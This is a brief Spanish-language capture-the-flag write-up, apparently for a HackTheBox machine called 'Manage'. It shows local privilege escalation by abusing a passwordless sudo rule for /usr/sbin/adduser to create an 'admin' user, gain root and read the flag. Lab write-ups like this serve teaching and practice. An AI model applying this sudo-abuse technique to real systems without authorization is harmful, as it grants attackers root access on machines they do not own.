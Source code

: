 #abusobinarioadduser

---


```shell
sudo -l
```
Y vemos que podemos ejecutar sin proporcionar contraseña el binario

```
(ALL : ALL) NOPASSWD: /usr/sbin/adduser
```


Usamos ``sudo /usr/sbin/adduser admin`` para agregar al usuario admin que no esta creado y con eso ya vamos a tener permisos de root
La verdad que el usuario lo saque por las preguntas del guidedmode, y fuerza bruta de ir probando
![[Manage23.png]]
![[Manage24.png]]

Ya podemos catear la flag
![[Manage25.png]]
